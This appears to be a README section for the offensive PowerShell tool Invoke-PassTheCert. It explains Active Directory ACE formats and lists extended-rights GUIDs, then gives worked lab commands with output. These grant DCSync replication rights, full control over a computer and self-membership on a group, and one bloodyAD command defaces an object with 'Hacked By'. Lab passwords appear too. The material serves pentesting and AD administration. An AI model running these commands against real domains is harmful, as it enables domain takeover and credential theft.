# Access Control Entries - `[AccessMask,ObjectAceType]` Pairs & Special Permissions...

> Any `Invoke-PassTheCert` command requires an `-LdapConnection` Parameter, establishing the LDAP/S connection. Such variable can be grabbed with a valid certificate:

```powershell
PS > Import-Module .\Invoke-PassTheCert.ps1
PS > $LdapConnection = Invoke-PassTheCert-GetLDAPConnectionInstance -Server '<IP>' -Port <PORT> -Certificate '<USER.pfx>'
```

## Getting Th4' Correctly Formatted Inbound ACEs

### ACE Overview'ed

Broadly speaking, an [ACE (Access Control Entry)](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-entries) is an entry describing which principal is granted which right(s) against a targeted object. 
This ACE is defined in the targeted object's `nTSecurityDescriptor` attribute. In particular:
- An object's `Inbound ACEs` are the ACEs granted to principals over that object. In other words, the object is the target, and the granted principal the source.
- A principal's `Outbound ACEs` are the ACEs that are granted to that principal over any object. In other words, the objects are the target, and the granted principal the source.

> Technically speaking, principal `A`'s Outbound ACEs *doesn't exist*. The principal `A`'s `Outbound ACEs` are just the filtering of any inbound ACEs (hence against any object) in which the granted principal is `A`. In other words, only `Inbound ACEs` exist. `Outbound ACEs` are just a (dynamic) consequence of all object's `Inbound ACEs`.

> Therefore, anytime `ACE` is mentioned, it's an understood `Inbound ACE`. `Inbound ACEs` and `ACEs` are the same.

### ACE Format

ACEs can be properly set using an environment lab and checking the set-by-default ACEs to match. 
In other words, to get any well-formed ACE entry (more specifically, the good `['AccessMask', 'ObjectAceType']` ACE pairs), we might copy one of the legitimate rights already set by default from an environment lab, manually manipulating the `Security` of a domain object within the `Active Directory Users and Computers` feature.

Then, to get these manually defined ACEs from our lab, we might either use:

1. The following [`dacledit.py` command from impacket](https://github.com/fortra/impacket/blob/35a71962bf504eb6752e68685854ce1856de2b86/examples/dacledit.py). For instance, we may look for allowed inbound ACEs targeting `DC=JAMAD,DC=LOCAL` granting an `ObjectAceType` matching one of the following patterns: `FullControl*`, `WriteDACL*`, `Replication-Get-Changes*`, `DS-Replication-Synchronize*`:

```powershell
jamarir@kali:~$ dacledit.py jamad.local/'User':'USR_P@ssw0rd123!'  -dc-ip '192.168.56.202' -action 'read' -ace-type 'allowed' -target-dn 'DC=JAMAD,DC=LOCAL' |grep -A1 -B3 -iP '(Access Mask|Object type \(GUID\))\s+:\s+(FullControl|WriteDACL|DS-Replication-Get-Changes|DS-Replication-Synchronize)'
[...]
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess (0x100)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*]     Trustee (SID)             : Administrators (S-1-5-32-544)
--
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess (0x100)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : DS-Replication-Get-Changes-In-Filtered-Set (89e95b76-444d-4c62-991a-0facbeda640c)
[*]     Trustee (SID)             : Enterprise Domain Controllers (S-1-5-9)
--
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess (0x100)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : DS-Replication-Get-Changes (1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
[*]     Trustee (SID)             : Enterprise Domain Controllers (S-1-5-9)
--
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess (0x100)
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : DS-Replication-Synchronize (1131f6ab-9c07-11d1-f79f-00c04fc2dcd2)
[*]     Trustee (SID)             : Enterprise Domain Controllers (S-1-5-9)
--
[*]   ACE[51] info
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : Enterprise Admins (S-1-5-21-2539905369-2457893589-779357875-519)
--
[*]   ACE[58] info
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : Local System (S-1-5-18)
[...]
```

2. Or the following [`RSAT` commands](https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools). For instance, we may look for allowed inbound ACEs targeting `DC=JAMAD,DC=LOCAL` granting an `ObjectAceType` matching the following pattern: `DS-Replication-Get-Changes*`:

```powershell
PS > $Domain = 'JAMAD.LOCAL'; $Username = 'User'; $Password = 'USR_P@ssw0rd123!'; $dc = '192.168.56.202'
PS > $c = New-Object System.Management.Automation.PSCredential("$Domain\$Username",(ConvertTo-SecureString "$Password" -AsPlainText -Force))
PS > $er = .\Get-ExtendedRights.ps1 -Server $dc -Domain $Domain -Username $Username -Password $Password
PS > New-PSDrive -Name AD1337 -PSProvider ActiveDirectory -root "//RootDSE/" -Server $dc -Credential $c
PS > (Get-Acl -Path "AD1337:DC=$(($Domain -split '\.') -join ',DC=')").Access |%{$ot = $_.ObjectType; $_ |Add-Member -Force -NotePropertyName 'ObjectTypeName' -NotePropertyValue $er.where{$_.rightsGuid -match $ot}.name; $_} |?{$_.AccessControlType -like 'Allow*' -and ($_.ObjectTypeName -like 'DS-Replication-Get-Changes*')}
[...]
ObjectTypeName        : DS-Replication-Get-Changes
ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Administrators
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ObjectTypeName        : DS-Replication-Get-Changes-All
ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BUILTIN\Administrators
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
[...]
PS > Remove-PSDrive -Name AD1337
```


> `New-PSDrive` allows to retrieve ACL entries from a non-domain joined computer. Here, we're using a custom `AD1337:` PSDrive (instead of the default `AD:` one), pointing to a domain in which our local computer is not domain-joined into (inspired from: https://stackoverflow.com/questions/37570190/get-acl-from-different-domains).
> If this times-out with error `Exception calling "FindAll" with "0" argument(s): "The specified domain either does not exist or could not be contacted."`, then the commands could be run from the lab's DC instead. Otherwise, no need to execute it, result is provided below.


To get an *exhaustive* list of the ACE ObjectAceTypes' GUIDs (i.e. `DS-Replication-Get-Changes-All`, `User-Change-Password`, ...), we may refer to [[MS-ADTS]: 5.1.3.2.1 Control Access Rights](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb), and complete that list using the provided `Get-ExtendedRights.ps1` PowerShell script:

```powershell
PS > .\Get-ExtendedRights.ps1 -Server 192.168.56.202 -Domain 'JAMAD.LOCAL' -Username 'User' -Password 'USR_P@ssw0rd123!'

name                                          distinguishedname                                                                                      rightsguid
----                                          -----------------                                                                                      ----------
Domain-Administer-Server                      CN=Domain-Administer-Server,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                      ab721a52-1e2f-11d0-9819-00aa0040529b
User-Change-Password                          CN=User-Change-Password,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                          ab721a53-1e2f-11d0-9819-00aa0040529b
User-Force-Change-Password                    CN=User-Force-Change-Password,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    00299570-246d-11d0-a768-00aa006e0529
Send-As                                       CN=Send-As,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                       ab721a54-1e2f-11d0-9819-00aa0040529b
Receive-As                                    CN=Receive-As,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                    ab721a56-1e2f-11d0-9819-00aa0040529b
Send-To                                       CN=Send-To,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                       ab721a55-1e2f-11d0-9819-00aa0040529b
Domain-Password                               CN=Domain-Password,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                               c7407360-20bf-11d0-a768-00aa006e0529
General-Information                           CN=General-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           59ba2f42-79a2-11d0-9020-00c04fc2d3cf
User-Account-Restrictions                     CN=User-Account-Restrictions,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                     4c164200-20c0-11d0-a768-00aa006e0529
User-Logon                                    CN=User-Logon,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                    5f202010-79a5-11d0-9020-00c04fc2d4cf
Membership                                    CN=Membership,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                    bc0ac240-79a9-11d0-9020-00c04fc2d4cf
Open-Address-Book                             CN=Open-Address-Book,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                             a1990816-4298-11d1-ade2-00c04fd8d5cd
Personal-Information                          CN=Personal-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                          77B5B886-944A-11d1-AEBD-0000F80367C1
Email-Information                             CN=Email-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                             E45795B2-9455-11d1-AEBD-0000F80367C1
Web-Information                               CN=Web-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                               E45795B3-9455-11d1-AEBD-0000F80367C1
DS-Replication-Get-Changes                    CN=DS-Replication-Get-Changes,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
DS-Replication-Synchronize                    CN=DS-Replication-Synchronize,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    1131f6ab-9c07-11d1-f79f-00c04fc2dcd2
DS-Replication-Manage-Topology                CN=DS-Replication-Manage-Topology,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                1131f6ac-9c07-11d1-f79f-00c04fc2dcd2
Change-Schema-Master                          CN=Change-Schema-Master,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                          e12b56b6-0a95-11d1-adbb-00c04fd8d5cd
Change-Rid-Master                             CN=Change-Rid-Master,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                             d58d5f36-0a98-11d1-adbb-00c04fd8d5cd
Do-Garbage-Collection                         CN=Do-Garbage-Collection,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                         fec364e0-0a98-11d1-adbb-00c04fd8d5cd
Recalculate-Hierarchy                         CN=Recalculate-Hierarchy,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                         0bc1554e-0a99-11d1-adbb-00c04fd8d5cd
Allocate-Rids                                 CN=Allocate-Rids,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                 1abd7cf8-0a99-11d1-adbb-00c04fd8d5cd
Change-PDC                                    CN=Change-PDC,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                    bae50096-4752-11d1-9052-00c04fc2d4cf
Add-GUID                                      CN=Add-GUID,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                      440820ad-65b4-11d1-a3da-0000f875ae0d
Change-Domain-Master                          CN=Change-Domain-Master,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                          014bf69c-7b3b-11d1-85f6-08002be74fab
Public-Information                            CN=Public-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                            e48d0154-bcf8-11d1-8702-00c04fb96050
msmq-Receive-Dead-Letter                      CN=msmq-Receive-Dead-Letter,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                      4b6e08c0-df3c-11d1-9c86-006008764d0e
msmq-Peek-Dead-Letter                         CN=msmq-Peek-Dead-Letter,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                         4b6e08c1-df3c-11d1-9c86-006008764d0e
msmq-Receive-computer-Journal                 CN=msmq-Receive-computer-Journal,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                 4b6e08c2-df3c-11d1-9c86-006008764d0e
msmq-Peek-computer-Journal                    CN=msmq-Peek-computer-Journal,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    4b6e08c3-df3c-11d1-9c86-006008764d0e
msmq-Receive                                  CN=msmq-Receive,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                  06bd3200-df3e-11d1-9c86-006008764d0e
msmq-Peek                                     CN=msmq-Peek,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                     06bd3201-df3e-11d1-9c86-006008764d0e
msmq-Send                                     CN=msmq-Send,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                     06bd3202-df3e-11d1-9c86-006008764d0e
msmq-Receive-journal                          CN=msmq-Receive-journal,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                          06bd3203-df3e-11d1-9c86-006008764d0e
msmq-Open-Connector                           CN=msmq-Open-Connector,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           b4e60130-df3f-11d1-9c86-006008764d0e
Apply-Group-Policy                            CN=Apply-Group-Policy,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                            edacfd8f-ffb3-11d1-b41d-00a0c968f939
RAS-Information                               CN=RAS-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                               037088f8-0ae1-11d2-b422-00a0c968f939
DS-Install-Replica                            CN=DS-Install-Replica,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                            9923a32a-3607-11d2-b9be-0000f87a36b2
Change-Infrastructure-Master                  CN=Change-Infrastructure-Master,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                  cc17b1fb-33d9-11d2-97d4-00c04fd8d5cd
Update-Schema-Cache                           CN=Update-Schema-Cache,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           be2bb760-7f46-11d2-b9ad-00c04f79f805
Recalculate-Security-Inheritance              CN=Recalculate-Security-Inheritance,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL              62dd28a8-7f46-11d2-b9ad-00c04f79f805
DS-Check-Stale-Phantoms                       CN=DS-Check-Stale-Phantoms,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                       69ae6200-7f46-11d2-b9ad-00c04f79f805
Certificate-Enrollment                        CN=Certificate-Enrollment,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                        0e10c968-78fb-11d2-90d4-00c04f79dc55
Self-Membership                               CN=Self-Membership,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                               bf9679c0-0de6-11d0-a285-00aa003049e2
Validated-DNS-Host-Name                       CN=Validated-DNS-Host-Name,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                       72e39547-7b18-11d1-adef-00c04fd8d5cd
Validated-SPN                                 CN=Validated-SPN,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                 f3a64788-5306-11d1-a9c5-0000f80367c1
Generate-RSoP-Planning                        CN=Generate-RSoP-Planning,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                        b7b1b3dd-ab09-4242-9e30-9980e5d322f7
Refresh-Group-Cache                           CN=Refresh-Group-Cache,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           9432c620-033c-4db7-8b58-14ef6d0bf477
SAM-Enumerate-Entire-Domain                   CN=SAM-Enumerate-Entire-Domain,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                   91d67418-0135-4acc-8d79-c08e857cfbec
Generate-RSoP-Logging                         CN=Generate-RSoP-Logging,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                         b7b1b3de-ab09-4242-9e30-9980e5d322f7
Domain-Other-Parameters                       CN=Domain-Other-Parameters,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                       b8119fd0-04f6-4762-ab7a-4986c76b3f9a
DNS-Host-Name-Attributes                      CN=DNS-Host-Name-Attributes,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                      72e39547-7b18-11d1-adef-00c04fd8d5cd
Create-Inbound-Forest-Trust                   CN=Create-Inbound-Forest-Trust,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                   e2a36dc9-ae17-47c3-b58b-be34c55ba633
DS-Replication-Get-Changes-All                CN=DS-Replication-Get-Changes-All,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
Migrate-SID-History                           CN=Migrate-SID-History,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           BA33815A-4F93-4c76-87F3-57574BFF8109
Reanimate-Tombstones                          CN=Reanimate-Tombstones,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                          45EC5156-DB7E-47bb-B53F-DBEB2D03C40F
Allowed-To-Authenticate                       CN=Allowed-To-Authenticate,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                       68B1D179-0D15-4d4f-AB71-46152E79A7BC
DS-Execute-Intentions-Script                  CN=DS-Execute-Intentions-Script,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                  2f16c4a5-b98e-432c-952a-cb388ba33f2e
DS-Replication-Monitor-Topology               CN=DS-Replication-Monitor-Topology,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL               f98340fb-7c5b-4cdb-a00b-2ebdfa115a96
Update-Password-Not-Required-Bit              CN=Update-Password-Not-Required-Bit,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL              280f369c-67c7-438e-ae98-1d46f3c6f541
Unexpire-Password                             CN=Unexpire-Password,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                             ccc2dc7d-a6ad-4a7a-8846-c04e3cc53501
Enable-Per-User-Reversibly-Encrypted-Password CN=Enable-Per-User-Reversibly-Encrypted-Password,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL 05c74c5e-4deb-43b4-bd9f-86664c2a7fd5
DS-Query-Self-Quota                           CN=DS-Query-Self-Quota,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           4ecc03fe-ffc0-4947-b630-eb672a8a9dbc
Private-Information                           CN=Private-Information,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           91e647de-d96f-4b70-9557-d63ff4f3ccd8
Read-Only-Replication-Secret-Synchronization  CN=Read-Only-Replication-Secret-Synchronization,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL  1131f6ae-9c07-11d1-f79f-00c04fc2dcd2
MS-TS-GatewayAccess                           CN=MS-TS-GatewayAccess,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                           ffa6f046-ca4b-4feb-b40d-04dfee722543
Terminal-Server-License-Server                CN=Terminal-Server-License-Server,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                5805bc62-bdc9-4428-a5e2-856a0f4c185e
Reload-SSL-Certificate                        CN=Reload-SSL-Certificate,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                        1a60ea8d-58a6-4b20-bcdc-fb71eb8a9ff8
DS-Replication-Get-Changes-In-Filtered-Set    CN=DS-Replication-Get-Changes-In-Filtered-Set,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL    89e95b76-444d-4c62-991a-0facbeda640c
Run-Protect-Admin-Groups-Task                 CN=Run-Protect-Admin-Groups-Task,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                 7726b9d5-a4b4-4288-a6b2-dce952e80a7f
Manage-Optional-Features                      CN=Manage-Optional-Features,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                      7c0e2a7c-a419-48e4-a995-10180aad54dd
DS-Clone-Domain-Controller                    CN=DS-Clone-Domain-Controller,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    3e0f7e18-2c7a-4c10-ba82-4d926db99a3e
Validated-MS-DS-Behavior-Version              CN=Validated-MS-DS-Behavior-Version,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL              d31a8757-2447-4545-8081-3bb610cacbf2
Validated-MS-DS-Additional-DNS-Host-Name      CN=Validated-MS-DS-Additional-DNS-Host-Name,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL      80863791-dbe9-4eb8-837e-7f0ab55d9ac7
Certificate-AutoEnrollment                    CN=Certificate-AutoEnrollment,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    a05b8cc2-17bc-4802-a710-e7c15ab866a2
DS-Set-Owner                                  CN=DS-Set-Owner,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                                  4125c71f-7fac-4ff0-bcb7-f09a41325286
DS-Bypass-Quota                               CN=DS-Bypass-Quota,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                               88a9933e-e5c8-4f2a-9dd7-2527416b8092
DS-Read-Partition-Secrets                     CN=DS-Read-Partition-Secrets,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                     084c93a2-620d-4879-a836-f0ae47de0e89
DS-Write-Partition-Secrets                    CN=DS-Write-Partition-Secrets,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                    94825A8D-B171-4116-8146-1E34D8F54401
DS-Validated-Write-Computer                   CN=DS-Validated-Write-Computer,CN=Extended-Rights,CN=Configuration,DC=JAMAD,DC=LOCAL                   9b026da6-0d3c-465c-8bee-5199d7165cba
```

> Notice `Validated-SPN` Extended Right isn't listed in [the Control Access Rights](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb), but [the Validated Rights](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/20504d60-43ec-458f-bc7a-754eb64446df).


### Correctly Creating An Arbritrary Inbound ACE

Broadly speaking, we may refer to `PrincipalTo*.txt`, where `Principal` is the granted object (i.e. `Built-in security principals`, `Service Accounts`, `Computers`, `Groups`, `Users`), and `*` is the type of target object against which the inbound ACE operates on (`User`, `Computer`, `Group`, `OU`, `Contact`), as well as the provided per-ACE links in each file (e.g. [this link](https://learn.microsoft.com/en-us/windows/win32/adschema/r-Allowed-To-Authenticate) for `Allowed-To-Authenticate` in `PrincipalToComputer.txt`)

> The contents of these `PincipalTo*.txt` were manually populated, granting each right against every type of object.
> We may ignore the `SecurityIdentifier` field, corresponding to an arbitrary granted principal in the experimental lab.
> The provided files do NOT contain the endless `Active Directory Users and Computers > Security > Advanced > Permissions` possibilities (*yet...*).

#### `DCSync`'ed Domain (i.e ExtendedRights + DS-Replication-Get-Changes-All)

As an example, we see that the [`['DS-Replication-Get-Changes-All'='1131f6ad-9c07-11d1-f79f-00c04fc2dcd2']` Object Ace Type](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb) is legitimately associated with the [`['ExtendedRight'=0x100=256]` Access Mask](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights). 
Therefore, if we want to provide a principal with `DS-Replication-Get-Changes-All`, we MUST associate it with the `ExtendedRight` Access Mask (as per `PrincipalToDomain.txt`):

```powershell
=================================================================================

https://learn.microsoft.com/en-us/windows/win32/adschema/r-DS-Replication-Get-Changes-All

[ReplicatingDirectoryChangesAll]->Domain

    ObjectAceTypeName      : DS-Replication-Get-Changes-All
    AccessMaskNames        : ExtendedRight
    ObjectAceFlags         : ObjectAceTypePresent
    ObjectAceType          : 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
    InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
    BinaryLength           : 56
    AceQualifier           : AccessAllowed
    IsCallback             : False
    OpaqueLength           : 0
    AccessMask             : 256
    SecurityIdentifier     : S-1-5-21-[...]
    AceType                : AccessAllowedObject
    AceFlags               : None
    IsInherited            : False
    InheritanceFlags       : None
    PropagationFlags       : None
    AuditFlags             : None

=================================================================================
```

Here, the principal `S-1-5-21-[...]` was given `AccessAllowed` permission against a domain object (not shown in the text file), with the `['AccessMask'='ExtendedRight', 'ObjectAceType'='DS-Replication-Get-Changes-All']` ACE. 

For instance, the following allows principal `Wanha BE. ERUT` to have DCSync rights over the target domain `JAMAD.LOCAL` (creating an allowance inbound ACE into the `JAMAD.LOCAL`'s `nTSecurityDescriptor` attribute):

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightName 'DS-Replication-Get-Changes-All' -Target 'DC=JAMAD,DC=LOCAL'
[...]
ObjectAceTypeName      : DS-Replication-Get-Changes-All
AccessMaskNames        : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-2539905369-2457893589-779357875-1151
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
```


#### `Full Control`'ed Computer (i.e. GenericAll + NULL)

As yet another example, if we want to provide a principal with `GenericAll` rights over a computer, refering to `PrincipalToComputer.txt` shows that such ACE MUST NOT contain the `ObjectAceType` object. In other words, the correctly formed ACE is: `['AccessMask'='GenericAll', 'ObjectAceType'=NULL]`.

```powershell
=================================================================================

[FullControl]->Computer

    AccessMaskNames    : GenericAll
    BinaryLength       : 36
    AceQualifier       : AccessAllowed
    IsCallback         : False
    OpaqueLength       : 0
    AccessMask         : 983551
    SecurityIdentifier : S-1-5-21-[...]
    AceType            : AccessAllowed
    AceFlags           : None
    IsInherited        : False
    InheritanceFlags   : None
    PropagationFlags   : None
    AuditFlags         : None

=================================================================================
```

For instance, the following allows principal `Yure YM. MINE` to have Full Control rights over the target computer `KINDAOWNED$` (creating an allowance inbound ACE into the `KINDAOWNED$`'s `nTSecurityDescriptor` attribute):

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Yure YM. MINE,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'GenericAll' -Target 'CN=KINDAOWNED,CN=Computer,DC=JAMAD,DC=LOCAL'
[...]
[+] Successfully Created Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='GenericAll', ObjectAceType=NULL] Provided To Account 'CN=Yure YM. MINE,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=KINDAOWNED,CN=Computers,DC=JAMAD,DC=LOCAL' !
[...]
```

```powershell
jamarir@kali:~$ bloodyAD --dns 192.168.56.202 --dc-ip 192.168.56.202 --host 'dc02.jamad.local' -d 'jamad.local' -u 'ymine' -p 'YM_P@ssw0rd123!' set object 'KINDAOWNED$' 'description' -v 'Hacked By @!YUr3M1n3!'
[+] KINDAOWNED$'s description has been updated
```


#### `Add / Remove Self As Member`'ed Group (i.e. Self-Membership + Self)

As yet another example, if we want to provide a principal with `Add / Remove Self As Member` rights over a group, we'll first look at `PrincipalToGroup.txt` to get the good ACE format over groups. Here, we see the correctly formed ACE is `['AccessMask'='Self', 'ObjectAceType'='Self-Membership']`:

```powershell
=================================================================================

https://learn.microsoft.com/en-us/windows/win32/adschema/r-Self-Membership

[Add/RemoveSelfAsMember]->Group

	ObjectAceTypeName      : Self-Membership
	AccessMaskNames        : Self
	ObjectAceFlags         : ObjectAceTypePresent
	ObjectAceType          : bf9679c0-0de6-11d0-a285-00aa003049e2
	InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
	BinaryLength           : 56
	AceQualifier           : AccessAllowed
	IsCallback             : False
	OpaqueLength           : 0
	AccessMask             : 8
	SecurityIdentifier     : S-1-5-21-[...]
	AceType                : AccessAllowedObject
	AceFlags               : None
	IsInherited            : False
	InheritanceFlags       : None
	PropagationFlags       : None
	AuditFlags             : None

=================================================================================
```

For instance, the following allows principal `Lukin LF. FURMATES` to add itself as a member over the target group `KindaGroupy` (creating an allowance inbound ACE into the `KindaGroupy`'s `nTSecurityDescriptor` attribute):

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Lukin LF. FURMATES,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'Self' -AccessRightName 'Self-Membership' -Target 'CN=KindaGroupy,CN=Builtin,DC=JAMAD,DC=LOCAL'
[...]
[+] Successfully Created Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='Self', ObjectAceType='Self-Membership'] Provided To Account 'CN=Lukin LF. FURMATES,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=KindaGroupy,CN=Builtin,DC=JAMAD,DC=LOCAL' !
